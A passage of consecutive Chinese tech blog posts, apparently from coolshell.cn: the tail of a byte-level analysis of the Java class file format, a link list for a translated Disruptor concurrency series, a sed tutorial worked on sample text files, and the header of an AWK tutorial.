1）u4 magic 表示魔数，并且魔数占用了4个字节，魔数到底是做什么的呢？它其实就是表示一下这个文件的类型是一个Class文件，而不是一张JPG图片，或者AVI的电影。而Class文件对应的魔数是0xCAFEBABE.

2）u2 minor_version 表示Class文件的次版本号，并且此版本号是u2类型的无符号数表示。

3） u2 major_version 表示Class文件的主版本号，并且主版本号是u2类型的无符号数表示。major_version和minor_version主要用来表示当前的虚拟 机是否接受当前这种版本的Class文件。不同版本的Java编译器编译的Class文件对应的版本是不一样的。高版本的虚拟机支持低版本的编译器编译的 Class文件结构。比如Java SE 6.0对应的虚拟机支持Java SE 5.0的编译器编译的Class文件结构，反之则不行。

4） u2 constant_pool_count 表示常量池的数量。这里我们需要重点来说一下常量池是什么东西，请大家不要与Jvm内存模型中的运行时常量池混淆了，Class文件中常量池主要存储了字 面量以及符号引用，其中字面量主要包括字符串，final常量的值或者某个属性的初始值等等，而符号引用主要存储类和接口的全限定名称，字段的名称以及描 述符，方法的名称以及描述符，这里名称可能大家都容易理解，至于描述符的概念，放到下面说字段表以及方法表的时候再说。另外大家都知道Jvm的内存模型中 有堆，栈，方法区，程序计数器构成，而方法区中又存在一块区域叫运行时常量池，运行时常量池中存放的东西其实也就是编译器长生的各种字面量以及符号引用， 只不过运行时常量池具有动态性，它可以在运行的时候向其中增加其它的常量进去，最具代表性的就是String的intern方法。

5）cp_info 表示常量池，这里面就存在了上面说的各种各样的字面量和符号引用。放到常量池的中数据项在The Java Virtual Machine Specification Java SE 7 Edition 中一共有14个常量，每一种常量都是一个表，并且每种常量都用一个公共的部分tag来表示是哪种类型的常量。

下面分别简单描述一下具体细节等到后面的实例 中我们再细化。

- CONSTANT_Utf8_info   tag标志位为1,  UTF-8编码的字符串
- CONSTANT_Integer_info tag标志位为3， 整形字面量
- CONSTANT_Float_info   tag标志位为4， 浮点型字面量
- CONSTANT_Long_info   tag标志位为5， 长整形字面量
- CONSTANT_Double_info tag标志位为6， 双精度字面量
- CONSTANT_Class_info  tag标志位为7， 类或接口的符号引用
- CONSTANT_String_info  tag标志位为8，字符串类型的字面量
- CONSTANT_Fieldref_info tag标志位为9, 字段的符号引用
- CONSTANT_Methodref_info tag标志位为10，类中方法的符号引用
- CONSTANT_InterfaceMethodref_info tag标志位为11, 接口中方法的符号引用
- CONSTANT_NameAndType_info tag 标志位为12，字段和方法的名称以及类型的符号引用

6） u2 access_flags 表示类或者接口的访问信息，具体如下图所示：


7）u2 this_class 表示类的常量池索引，指向常量池中CONSTANT_Class_info的常量

8）u2 super_class 表示超类的索引，指向常量池中CONSTANT_Class_info的常量

9）u2 interface_counts 表示接口的数量

10）u2 interface[interface_counts]表示接口表，它里面每一项都指向常量池中CONSTANT_Class_info常量

11）u2 fields_count 表示类的实例变量和类变量的数量

12） field_info fields[fields_count]表示字段表的信息，其中字段表的结构如下图所示：


上图中access_flags表示字段的访问表示，比如字段是public,private，protect 等，name_index表示字段名 称，指向常量池中类型是CONSTANT_UTF8_info的常量，descriptor_index表示字段的描述符，它也指向常量池中类型为 CONSTANT_UTF8_info的常量，attributes_count表示字段表中的属性表的数量，而属性表是则是一种用与描述字段，方法以及 类的属性的可扩展的结构，不同版本的Java虚拟机所支持的属性表的数量是不同的。

13） u2 methods_count表示方法表的数量

14）method_info 表示方法表，方法表的具体结构如下图所示：


其中access_flags表示方法的访问表示，name_index表示名称的索引，descriptor_index表示方法的描述 符，attributes_count以及attribute_info类似字段表中的属性表，只不过字段表和方法表中属性表中的属性是不同的，比如方法 表中就Code属性，表示方法的代码，而字段表中就没有Code属性。其中具体Class中到底有多少种属性，等到Class文件结构中的属性表的时候再 说说。

15） attribute_count表示属性表的数量，说到属性表，我们需要明确以下几点：

- 属性表存在于Class文件结构的最后，字段表，方法表以及Code属性中，也就是说属性表中也可以存在属性表
- 属性表的长度是不固定的，不同的属性，属性表的长度是不同的

上面说完了Class文件结构中每一项的构成以后，我们以一个实际的例子来解释以下上面所说的内容。

```
package com.ejushang.TestClass;

public class TestClass implements Super{

private static final int staticVar = 0;

private int instanceVar=0;

public int instanceMethod(int param){
 return param+1;
 }

}

interface Super{ }
```

通过jdk1.6.0_37的javac 编译后的TestClass.java对应的TestClass.class的二进制结构如下图所示：


下面我们就根据前面所说的Class的文件结构来解析以下上图中字节流。

**1）魔数**
从Class的文件结构我们知道，刚开始的4个字节是魔数，上图中从地址00000000h-00000003h的内容就是魔数，从上图可知Class的文件的魔数是0xCAFEBABE。

**2）主次版本号**
接下来的4个字节是主次版本号，有上图可知从00000004h-00000005h对应的是0x0000,因此Class的minor_version 为0x0000,从00000006h-00000007h对应的内容为0x0032,因此Class文件的major_version版本为 0x0032,这正好就是jdk1.6.0不带target参数编译后的Class对应的主次版本。

**3）常量池的数量**
接下来的2个字节从00000008h-00000009h表示常量池的数量，由上图可以知道其值为0x0018，十进制为24个,但是对于常量池的数量 需要明确一点，常量池的数量是constant_pool_count-1，为什么减一，是因为索引0表示class中的数据项不引用任何常量池中的常 量。

**4）常量池**
我们上面说了常量池中有不同类型的常量，下面就来看看TestClass.class的第一个常量，我们知道每个常量都有一个u1类型的tag标识来表示 常量的类型，上图中0000000ah处的内容为0x0A，转换成二级制是10，有上面的关于常量类型的描述可知tag为10的常量是Constant_Methodref_info,而Constant_Methodref_info的结够如下图所示：


其中class_index指向常量池中类型为CONSTANT_Class_info的常量，从TestClass的二进制文件结构中可以看出 class_index的值为0x0004（地址为0000000bh-0000000ch)，也就是说指向第四个常量。

name_and_type_index指向常量池中类型为CONSTANT_NameAndType_info常量。从上图可以看出name_and_type_index的值为0x0013，表示指向常量池中的第19个常量。

接下来又可以通过同样的方法来找到常量池中的所有常量。不过JDK提供了一个方便的工具可以让我们查看常量池中所包含的常量。通过javap -verbose TestClass 即可得到所有常量池中的常量，截图如下：


从上图我们可以清楚的看到，TestClass中常量池有24个常量，不要忘记了第0个常量，因为第0个常量被用来表示 Class中的数据项不引用任何常量池中的常量。从上面的分析中我们得知TestClass的第一个常量表示方法，其中class_index指向的第四 个常量为java/lang/Object，name_and_type_index指向的第19个常量值为<init>:()V,从这里可 以看出第一个表示方法的常量表示的是java编译器生成的实例构造器方法。通过同样的方法可以分析常量池的其它常量。OK，分析完常量池，我们接下来再分 析下access_flags。
**5）u2 access_flags** 表示类或者接口方面的访问信息，比如Class表示的是类还是接口，是否为public,static，final等。具体访问标示的含义之前已经说过 了，下面我们就来看看TestClass的访问标示。Class的访问标示是从0000010dh-0000010e，期值为0x0021，根据前面说的 各种访问标示的标志位，我们可以知道：0x0021=0x0001|0x0020 也即ACC_PUBLIC 和 ACC_SUPER为真，其中ACC_PUBLIC大家好理解，ACC_SUPER是jdk1.2之后编译的类都会带有的标志。

**6）u2 this_class** 表示类的索引值，用来表示类的全限定名称，类的索引值如下图所示：


从上图可以清楚到看到，类索引值为0x0003，对应常量池的第三个常量，通过javap的结果，我们知道第三个常量为 CONSTANT_Class_info类型的常量，通过它可以知道类的全限定名称为：com/ejushang/TestClass /TestClass

**7）u2 super_class** 表示当前类的父类的索引值，索引值所指向的常量池中类型为CONSTANT_Class_info的常量，父类的索引值如下图所示，其值为0x0004, 查看常量池的第四个常量，可知TestClass的父类的全限定名称为：java/lang/Object


**8）interfaces_count和 interfaces[interfaces_count]**表示接口数量以及具体的每一个接口，TestClass的接口数量以及接口如下图所示，其中 0x0001表示接口数量为1，而0x0005表示接口在常量池的索引值，找到常量池的第五个常量，其类型为CONSTANT_Class_info，其 值为：com/ejushang/TestClass/Super


**9）fields_count 和 field_info**, fields_count表示类中field_info表的数量，而field_info表示类的实例变量和类变量，这里需要注意的是 field_info不包含从父类继承过来的字段，field_info的结构如下图所示：


其中access_flags表示字段的访问标示，比如public,private,protected，static,final等，access_flags的取值如下图所示：


其中name_index 和 descriptor_index都是常量池的索引值，分别表示字段的名称和字段的描述符，字段的名称容易理解，但是字段的描述符如何理解呢？其实在JVM 规范中，对于字段的描述符规定如下图所示：

其中大家需要关注一下上图最后一行，它表示的是对一维数组的描述符，对于String[][]的描述符将是[[ Ljava/lang/String,而对于int[][]的描述符为[[I。接下来的attributes_count以及 attribute_info分别表示属性表的数量以及属性表。下面我们还是以上面的TestClass为例，来看看TestClass的字段表吧。

首先我们来看一下字段的数量，TestClass的字段的数量如下图所示：


从上图中可以看出TestClass有两个字段，查看TestClass的源代码可知，确实也只有两个字段，接下来我们看看第一个字段，我们知道第一个字段应该为private int staticVar,它在Class文件中的二进制表示如下图所示：


其中0x001A表示访问标示，通过查看access_flags表可知，其为ACC_PRIVATE,ACC_STATIC,ACC_FINAL,接下 来0x0006和0x0007分别表示常量池中第6和第7个常量，通过查看常量池可知，其值分别为：staticVar和I，其中staticVar为字 段名称，而I为字段的描述符，通过上面对描述符的解释，I所描述的是int类型的变量，接下来0x0001表示staticVar这个字段表中的属性表的 数量，从上图可以staticVar字段对应的属性表有1个，0x0008表示常量池中的第8个常量，查看常量池可以得知此属性为 ConstantValue属性，而ConstantValue属性的格式如下图所示：


其中attribute_name_index表述属性名的常量池索引，本例中为ConstantValue，而ConstantValue的 attribute_length固定长度为2，而constantValue_index表示常量池中的引用，本例中，其中为0x0009，查看第9个 常量可以知道，它表示一个类型为CONSTANT_Integer_info的常量，其值为0。

上面说完了private static final int staticVar=0，下面我们接着说一下TestClass的private int instanceVar=0,在本例中对instanceVar的二进制表示如下图所示：


其中0x0002表示访问标示为ACC_PRIVATE,0x000A表示字段的名称，它指向常量池中的第10个常量，查看常量池可以知道字段名称为 instanceVar，而0x0007表示字段的描述符，它指向常量池中的第7个常量，查看常量池可以知道第7个常量为I，表示类型为 instanceVar的类型为I，最后0x0000表示属性表的数量为0.

**10）methods_count 和 method_info** ，其中methods_count表示方法的数量，而method_info表示的方法表，其中方法表的结构如下图所示：


从上图可以看出method_info和field_info的结构是很类似的，方法表的access_flag的所有标志位以及取值如下图所示：


其中name_index和descriptor_index表示的是方法的名称和描述符，他们分别是指向常量池的索引。这里需要结解释一下方法的描述 符，方法的描述符的结构为：（参数列表）返回值，比如public int instanceMethod(int param)的描述符为：（I）I，表示带有一个int类型参数且返回值也为int类型的方法，接下来就是属性数量以及属性表了，方法表和字段表虽然都有 属性数量和属性表，但是他们里面所包含的属性是不同。接下来我们就以TestClass来看一下方法表的二进制表示。首先来看一下方法表数量，截图如下：


从上图可以看出方法表的数量为0x0002表示有两个方法，接下来我们来分析第一个方法，我们首先来看一下TestClass的第一个方法的access_flag，name_index,descriptor_index，截图如下：


从上图可以知道access_flags为0x0001，从上面对access_flags标志位的描述，可知方法的access_flags的取值为 ACC_PUBLIC,name_index为0x000B，查看常量池中的第11个常量，知道方法的名称为<init>，0x000C表示 descriptor_index表示常量池中的第12常量，其值为()V,表示<init>方法没有参数和返回值，其实这是编译器自动生成 的实例构造器方法。接下来的0x0001表示<init>方法的方法表有1个属性，属性截图如下：

从上图可以看出0x000D对应的常量池中的常量为Code,表示的方法的Code属性，所以到这里大家应该明白方法的那些代码是存储在Class文件方法表中的属性表中的Code属性中。接下来我们在分析一下Code属性，Code属性的结构如下图所示：


其中attribute_name_index指向常量池中值为Code的常量，attribute_length的长度表示Code属性表的长度（这里 需要注意的时候长度不包括attribute_name_index和attribute_length的6个字节的长度）。

max_stack表示最大栈深度，虚拟机在运行时根据这个值来分配栈帧中操作数的深度，而max_locals代表了局部变量表的存储空间。

max_locals的单位为slot，slot是虚拟机为局部变量分配内存的最小单元，在运行时，对于不超过32位类型的数据类型，比如 byte,char,int等占用1个slot，而double和Long这种64位的数据类型则需要分配2个slot，另外max_locals的值并 不是所有局部变量所需要的内存数量之和，因为slot是可以重用的，当局部变量超过了它的作用域以后，局部变量所占用的slot就会被重用。

code_length代表了字节码指令的数量，而code表示的时候字节码指令，从上图可以知道code的类型为u1,一个u1类型的取值为0x00-0xFF,对应的十进制为0-255，目前虚拟机规范已经定义了200多条指令。

exception_table_length以及exception_table分别代表方法对应的异常信息。

attributes_count和attribute_info分别表示了Code属性中的属性数量和属性表，从这里可以看出Class的文件结构中，属性表是很灵活的，它可以存在于Class文件，方法表，字段表以及Code属性中。

接下来我们继续以上面的例子来分析一下，从上面init方法的Code属性的截图中可以看出，属性表的长度为0x00000026,max_stack的 值为0x0002,max_locals的取值为0x0001,code_length的长度为0x0000000A，那么00000149h- 00000152h为字节码，接下来exception_table_length的长度为0x0000，而attribute_count的值为 0x0001，00000157h-00000158h的值为0x000E,它表示常量池中属性的名称，查看常量池得知第14个常量的值为 LineNumberTable，LineNumberTable用于描述java源代码的行号和字节码行号的对应关系，它不是运行时必需的属性，如果通 过-g:none的编译器参数来取消生成这项信息的话，最大的影响就是异常发生的时候，堆栈中不能显示出出错的行号，调试的时候也不能按照源代码来设置断 点，接下来我们再看一下LineNumberTable的结构如下图所示：


其中attribute_name_index上面已经提到过，表示常量池的索引，attribute_length表示属性长度，而start_pc和 line_number分表表示字节码的行号和源代码的行号。本例中LineNumberTable属性的字节流如下图所示：


上面分析完了TestClass的第一个方法，通过同样的方式我们可以分析出TestClass的第二个方法，截图如下：


其中access_flags为0x0001,name_index为0x000F,descriptor_index为0x0010，通过查看常量池可 以知道此方法为public int instanceMethod(int param)方法。通过和上面类似的方法我们可以知道instanceMethod的Code属性为下图所示：


最后我们来分析一下，Class文件的属性，从00000191h-00000199h为Class文件中的属性表，其中0x0011表示属性的名称，查看常量池可以知道属性名称为SourceFile，我们再来看看SourceFile的结构如下图所示：


其中attribute_length为属性的长度，sourcefile_index指向常量池中值为源代码文件名称的常量，在本例中SourceFile属性截图如下：


其中attribute_length为0x00000002表示长度为2个字节，而soucefile_index的值为0x0012,查看常量池的第18个常量可以知道源代码文件的名称为TestClass.java

最后，希望对技术感兴趣的朋友多交流。个人微博：（http://weibo.com/xmuzyq)

(全文完)

# 并发框架DISRUPTOR译文

#####  [2013年02月28日 ](https://coolshell.cn/articles/9169.html) [方 腾飞](https://coolshell.cn/articles/author/kiral) 评论 [38 条评论](https://coolshell.cn/articles/9169.html#comments) 62,606 人阅读

**（感谢同事[方腾飞](http://ifeve.com/)投递本文）**

Martin Fowler在自己网站上写了一篇[LMAX架构](http://ifeve.com/lmax)的文章，在文章中他介绍了LMAX是一种新型零售金融交易平台，它能够以很低的延迟产生大量交易。这个系统是建立在JVM平台上，其核心是一个业务逻辑处理器，它能够在一个线程里每秒处理6百万订单。业务逻辑处理器完全是运行在内存中，使用事件源驱动方式。业务逻辑处理器的核心是Disruptor。

Disruptor它是一个开源的并发框架，并获得[2011 Duke’s ](http://www.java.net/dukeschoice)程序框架创新奖，能够在无锁的情况下实现网络的Queue并发操作。本文是[Disruptor官网](https://code.google.com/p/disruptor/wiki/BlogsAndArticles)中发布的文章的译文（[现在被移到了GitHub](https://lmax-exchange.github.com/disruptor/)）。

#### **剖析Disruptor:为什么会这么快**

- [剖析Disruptor:为什么会这么快？(一)锁的缺点](http://ifeve.com/locks-are-bad/)

- [剖析Disruptor:为什么会这么快？(二)神奇的缓存行填充](http://ifeve.com/disruptor-cacheline-padding/)

- [剖析Disruptor:为什么会这么快？(三)伪共享](http://ifeve.com/falsesharing/)

- [剖析Disruptor:为什么会这么快？(四)揭秘内存屏障](http://ifeve.com/disruptor-memory-barrier/)

#### Disruptor如何工作和使用

- [如何使用Disruptor（一）Ringbuffer的特别之处](http://ifeve.com/dissecting-disruptor-whats-so-special/)

- [如何使用Disruptor（二）如何从Ringbuffer读取](http://ifeve.com/dissecting_the_disruptor_how_doi_read_from_the_ring_buffer/)

- [如何使用Disruptor（三）写入Ringbuffer](http://ifeve.com/disruptor-writing-ringbuffer/)


- [Disruptor(无锁并发框架)-发布](http://ifeve.com/the-disruptor-lock-free-publishing/)

- [LMAX Disruptor——一个高性能、低延迟且简单的框架](http://ifeve.com/disruptor-dsl/)

- [Disruptor Wizard已死，Disruptor Wizard永存！](http://ifeve.com/disruptor-wizard/)

- [Disruptor 2.0更新摘要](http://ifeve.com/disruptor-2-change/)

- [线程间共享数据不需要竞争](http://ifeve.com/sharing-data-among-threads-without-contention/)

#### Disruptor的应用

- [LMAX的架构](http://ifeve.com/lmax/)

- [通过Axon和Disruptor处理1M tps](http://ifeve.com/axon/)

（全文完）

# SED 简明教程

#####  [2013年02月20日 ](https://coolshell.cn/articles/9104.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [209 条评论](https://coolshell.cn/articles/9104.html#comments) 380,155 人阅读

awk于1977年出生，今年36岁本命年，sed比awk大2-3岁，awk就像林妹妹，sed就是宝玉哥哥了。所以 [林妹妹跳了个Topless](https://coolshell.cn/articles/9070.html)，他的哥哥sed坐不住了，也一定要出来抖一抖。

sed全名叫stream editor，流编辑器，用程序的方式来编辑文本，相当的hacker啊。sed基本上就是玩正则模式匹配，所以，玩sed的人，正则表达式一般都比较强。

同样，本篇文章不会说sed的全部东西，你可以参看[sed的手册](http://www.gnu.org/software/sed/manual/sed.html)，我这里主要还是想和大家竞争一下那些从手机指缝间或马桶里流走的时间，用这些时间来学习一些东西。当然，接下来的还是要靠大家自己双手。

目录


[用s命令替换](https://coolshell.cn/articles/9104.html#用s命令替换)[多个匹配](https://coolshell.cn/articles/9104.html#多个匹配)[圆括号匹配](https://coolshell.cn/articles/9104.html#圆括号匹配)[sed的命令](https://coolshell.cn/articles/9104.html#sed的命令)[N命令](https://coolshell.cn/articles/9104.html#N命令)[a命令和i命令](https://coolshell.cn/articles/9104.html#a命令和i命令)[c命令](https://coolshell.cn/articles/9104.html#c命令)[d命令](https://coolshell.cn/articles/9104.html#d命令)[p命令](https://coolshell.cn/articles/9104.html#p命令)[几个知识点](https://coolshell.cn/articles/9104.html#几个知识点)[Pattern Space](https://coolshell.cn/articles/9104.html#Pattern_Space)[Address](https://coolshell.cn/articles/9104.html#Address)[命令打包](https://coolshell.cn/articles/9104.html#命令打包)[Hold Space](https://coolshell.cn/articles/9104.html#Hold_Space)

#### 用s命令替换

我使用下面的这段文本做演示：

```
$ cat pets.txt
This is my cat
  my cat's name is betty
This is my dog
  my dog's name is frank
This is my fish
  my fish's name is george
This is my goat
  my goat's name is adam
```

把其中的my字符串替换成Hao Chen’s，下面的语句应该很好理解（s表示替换命令，/my/表示匹配my，/Hao Chen’s/表示把匹配替换成Hao Chen’s，/g 表示一行上的替换所有的匹配）：

```
$ sed "s/my/Hao Chen's/g" pets.txt
This is Hao Chen's cat
  Hao Chen's cat's name is betty
This is Hao Chen's dog
  Hao Chen's dog's name is frank
This is Hao Chen's fish
  Hao Chen's fish's name is george
This is Hao Chen's goat
  Hao Chen's goat's name is adam
```

注意：如果你要使用单引号，那么你没办法通过\’这样来转义，就有双引号就可以了，在双引号内可以用\”来转义。


再注意：上面的sed并没有对文件的内容改变，只是把处理过后的内容输出，如果你要写回文件，你可以使用重定向，如：

```
$ sed "s/my/Hao Chen's/g" pets.txt > hao_pets.txt
```

或使用 -i 参数直接修改文件内容：

```
$ sed -i "s/my/Hao Chen's/g" pets.txt
```

在每一行最前面加点东西：

```
$ sed 's/^/#/g' pets.txt
#This is my cat
#  my cat's name is betty
#This is my dog
#  my dog's name is frank
#This is my fish
#  my fish's name is george
#This is my goat
#  my goat's name is adam
```

在每一行最后面加点东西：

```
$ sed 's/$/ --- /g' pets.txt
This is my cat ---
  my cat's name is betty ---
This is my dog ---
  my dog's name is frank ---
This is my fish ---
  my fish's name is george ---
This is my goat ---
  my goat's name is adam ---
```

顺手介绍一下正则表达式的一些最基本的东西：

- `^` 表示一行的开头。如：`/^#/` 以#开头的匹配。
- `$` 表示一行的结尾。如：`/}$/` 以}结尾的匹配。
- `\<` 表示词首。 如：`\<abc` 表示以 abc 为首的詞。
- `\>` 表示词尾。 如：`abc\>` 表示以 abc 結尾的詞。
- `.` 表示任何单个字符。
- `*` 表示某个字符出现了0次或多次。
- `[ ]` 字符集合。 如：`[abc]` 表示匹配a或b或c，还有 `[a-zA-Z]` 表示匹配所有的26个字符。如果其中有^表示反，如 `[^a]` 表示非a的字符

正规则表达式是一些很牛的事，比如我们要去掉某html中的tags：

```
<b>This</b> is what <span style="text-decoration: underline;">I</span> meant. Understand?
```

看看我们的sed命令

```
# 如果你这样搞的话，就会有问题
$ sed 's/<.*>//g' html.txt
 Understand?

# 要解决上面的那个问题，就得像下面这样。
# 其中的'[^>]' 指定了除了>的字符重复0次或多次。
$ sed 's/<[^>]*>//g' html.txt
This is what I meant. Understand?
```

我们再来看看指定需要替换的内容：

```
$ sed "3s/my/your/g" pets.txt
This is my cat
  my cat's name is betty
This is your dog
  my dog's name is frank
This is my fish
  my fish's name is george
This is my goat
  my goat's name is adam
```

下面的命令只替换第3到第6行的文本。

```
$ sed "3,6s/my/your/g" pets.txt
This is my cat
  my cat's name is betty
This is your dog
  your dog's name is frank
This is your fish
  your fish's name is george
This is my goat
  my goat's name is adam
```

 

```
$ cat my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my goat, my goat's name is adam
```

只替换每一行的第一个s：

```
$ sed 's/s/S/1' my.txt
ThiS is my cat, my cat's name is betty
ThiS is my dog, my dog's name is frank
ThiS is my fish, my fish's name is george
ThiS is my goat, my goat's name is adam
```

只替换每一行的第二个s：

```
$ sed 's/s/S/2' my.txt
This iS my cat, my cat's name is betty
This iS my dog, my dog's name is frank
This iS my fish, my fish's name is george
This iS my goat, my goat's name is adam
```

只替换第一行的第3个以后的s：

```
$ sed 's/s/S/3g' my.txt
This is my cat, my cat'S name iS betty
This is my dog, my dog'S name iS frank
This is my fiSh, my fiSh'S name iS george
This is my goat, my goat'S name iS adam
```

#### 多个匹配

如果我们需要一次替换多个模式，可参看下面的示例：（第一个模式把第一行到第三行的my替换成your，第二个则把第3行以后的This替换成了That）

```
$ sed '1,3s/my/your/g; 3,$s/This/That/g' my.txt
This is your cat, your cat's name is betty
This is your dog, your dog's name is frank
That is your fish, your fish's name is george
That is my goat, my goat's name is adam
```

上面的命令等价于：（注：下面使用的是sed的-e命令行参数）

```
sed -e '1,3s/my/your/g' -e '3,$s/This/That/g' my.txt
```

我们可以使用&来当做被匹配的变量，然后可以在基本左右加点东西。如下所示：

```
$ sed 's/my/[&]/g' my.txt
This is [my] cat, [my] cat's name is betty
This is [my] dog, [my] dog's name is frank
This is [my] fish, [my] fish's name is george
This is [my] goat, [my] goat's name is adam
```

#### 圆括号匹配

使用圆括号匹配的示例：（圆括号括起来的正则表达式所匹配的字符串会可以当成变量来使用，sed中使用的是\1,\2…）

```
$ sed 's/This is my \([^,&]*\),.*is \(.*\)/\1:\2/g' my.txt
cat:betty
dog:frank
fish:george
goat:adam
```

上面这个例子中的正则表达式有点复杂，解开如下（去掉转义字符）：

正则为：This is my ([^,]*),.*is (.*)
匹配为：This is my (cat),……….is (betty)

然后：\1就是cat，\2就是betty

#### sed的命令

让我们回到最一开始的例子pets.txt，让我们来看几个命令：

##### N命令

先来看N命令 —— 把下一行的内容纳入当成缓冲区做匹配。

下面的的示例会把原文本中的偶数行纳入奇数行匹配，而s只匹配并替换一次，所以，就成了下面的结果：

```
$ sed 'N;s/my/your/' pets.txt
This is your cat
  my cat's name is betty
This is your dog
  my dog's name is frank
This is your fish
  my fish's name is george
This is your goat
  my goat's name is adam
```

也就是说，原来的文件成了：

```
This is my cat\n  my cat's name is betty
This is my dog\n  my dog's name is frank
This is my fish\n  my fish's name is george
This is my goat\n  my goat's name is adam
```

这样一来，下面的例子你就明白了，

```
$ sed 'N;s/\n/,/' pets.txt
This is my cat,  my cat's name is betty
This is my dog,  my dog's name is frank
This is my fish,  my fish's name is george
This is my goat,  my goat's name is adam
```

##### a命令和i命令

a命令就是append， i命令就是insert，它们是用来添加行的。如：

```
# 其中的1i表明，其要在第1行前插入一行（insert）
$ sed "1 i This is my monkey, my monkey's name is wukong" my.txt
This is my monkey, my monkey's name is wukong
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my goat, my goat's name is adam

# 其中的1a表明，其要在最后一行后追加一行（append）
$ sed "$ a This is my monkey, my monkey's name is wukong" my.txt
This is my cat, my cat's name is betty
This is my monkey, my monkey's name is wukong
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my goat, my goat's name is adam
```

我们可以运用匹配来添加文本：

```
# 注意其中的/fish/a，这意思是匹配到/fish/后就追加一行
$ sed "/fish/a This is my monkey, my monkey's name is wukong" my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my monkey, my monkey's name is wukong
This is my goat, my goat's name is adam
```

下面这个例子是对每一行都挺插入：

```
$ sed "/my/a ----" my.txt
This is my cat, my cat's name is betty
----
This is my dog, my dog's name is frank
----
This is my fish, my fish's name is george
----
This is my goat, my goat's name is adam
----
```

##### c命令

c 命令是替换匹配行

```
$ sed "2 c This is my monkey, my monkey's name is wukong" my.txt
This is my cat, my cat's name is betty
This is my monkey, my monkey's name is wukong
This is my fish, my fish's name is george
This is my goat, my goat's name is adam

$ sed "/fish/c This is my monkey, my monkey's name is wukong" my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my monkey, my monkey's name is wukong
This is my goat, my goat's name is adam
```

##### d命令

删除匹配行

```
$ sed '/fish/d' my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my goat, my goat's name is adam

$ sed '2d' my.txt
This is my cat, my cat's name is betty
This is my fish, my fish's name is george
This is my goat, my goat's name is adam

$ sed '2,$d' my.txt
This is my cat, my cat's name is betty
```

##### p命令

打印命令

你可以把这个命令当成grep式的命令

```
# 匹配fish并输出，可以看到fish的那一行被打了两遍，
# 这是因为sed处理时会把处理的信息输出
$ sed '/fish/p' my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my fish, my fish's name is george
This is my goat, my goat's name is adam

# 使用n参数就好了
$ sed -n '/fish/p' my.txt
This is my fish, my fish's name is george

# 从一个模式到另一个模式
$ sed -n '/dog/,/fish/p' my.txt
This is my dog, my dog's name is frank
This is my fish, my fish's name is george

#从第一行打印到匹配fish成功的那一行
$ sed -n '1,/fish/p' my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
```

#### 几个知识点

好了，下面我们要介绍四个sed的基本知识点：

##### Pattern Space

第零个是关于-n参数的，大家也许没看懂，没关系，我们来看一下sed处理文本的伪代码，并了解一下Pattern Space的概念：

```
foreach line in file {
    //放入把行Pattern_Space
    Pattern_Space <= line;

    // 对每个pattern space执行sed命令
    Pattern_Space <= EXEC(sed_cmd, Pattern_Space);

    // 如果没有指定 -n 则输出处理后的Pattern_Space
    if (sed option hasn't "-n")  {
       print Pattern_Space
    }
}
```

##### Address

第一个是关于address，几乎上述所有的命令都是这样的（注：其中的!表示匹配成功后是否执行命令）

**[address[,address]][!]{cmd}**

address可以是一个数字，也可以是一个模式，你可以通过逗号要分隔两个address 表示两个address的区间，参执行命令cmd，伪代码如下：

```
bool bexec = false
foreach line in file {
    if ( match(address1) ){
        bexec = true;
    }

    if ( bexec == true) {
        EXEC(sed_cmd);
    }

    if ( match (address2) ) {
        bexec = false;
    }
}
```

关于address可以使用相对位置，如：

```
# 其中的+3表示后面连续3行
$ sed '/dog/,+3s/^/# /g' pets.txt
This is my cat
  my cat's name is betty
# This is my dog
#   my dog's name is frank
# This is my fish
#   my fish's name is george
This is my goat
  my goat's name is adam
```

##### 命令打包

第二个是cmd可以是多个，它们可以用分号分开，可以用大括号括起来作为嵌套命令。下面是几个例子：

```
$ cat pets.txt
This is my cat
  my cat's name is betty
This is my dog
  my dog's name is frank
This is my fish
  my fish's name is george
This is my goat
  my goat's name is adam

# 对3行到第6行，执行命令/This/d
$ sed '3,6 {/This/d}' pets.txt
This is my cat
  my cat's name is betty
  my dog's name is frank
  my fish's name is george
This is my goat
  my goat's name is adam

# 对3行到第6行，匹配/This/成功后，再匹配/fish/，成功后执行d命令
$ sed '3,6 {/This/{/fish/d}}' pets.txt
This is my cat
  my cat's name is betty
This is my dog
  my dog's name is frank
  my fish's name is george
This is my goat
  my goat's name is adam

# 从第一行到最后一行，如果匹配到This，则删除之；如果前面有空格，则去除空格
$ sed '1,${/This/d;s/^ *//g}' pets.txt
my cat's name is betty
my dog's name is frank
my fish's name is george
my goat's name is adam 
```

##### Hold Space

第三个我们再来看一下 Hold Space

接下来，我们需要了解一下Hold Space的概念，我们先来看四个命令：

g： 将hold space中的内容拷贝到pattern space中，原来pattern space里的内容清除
G： 将hold space中的内容append到pattern space\n后
h： 将pattern space中的内容拷贝到hold space中，原来的hold space里的内容被清除
H： 将pattern space中的内容append到hold space\n后
x： 交换pattern space和hold space的内容

这些命令有什么用？我们来看两个示例吧，用到的示例文件是：

```
$ cat t.txt
one
two
three
```

第一个示例：

```
$ sed 'H;g' t.txt
one

one
two

one
two
three
```

是不是有点没看懂，我作个图你就看懂了。


第二个示例，反序了一个文件的行：

```
$ sed '1!G;h;$!d' t.txt
three
two
one
```

其中的 ‘1!G;h;$!d’ 可拆解为三个命令

- 1!G —— 只有第一行不执行G命令，将hold space中的内容append回到pattern space
- h —— 第一行都执行h命令，将pattern space中的内容拷贝到hold space中
- $!d —— 除了最后一行不执行d命令，其它行都执行d命令，删除当前行

这个执行序列很难理解，做个图如下大家就明白了：


就先说这么多吧，希望对大家有用。

（全文完）

# AWK 简明教程

#####  [2013年02月17日 ](https://coolshell.cn/articles/9070.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [260 条评论](https://coolshell.cn/articles/9070.html#comments) 453,180 人阅读

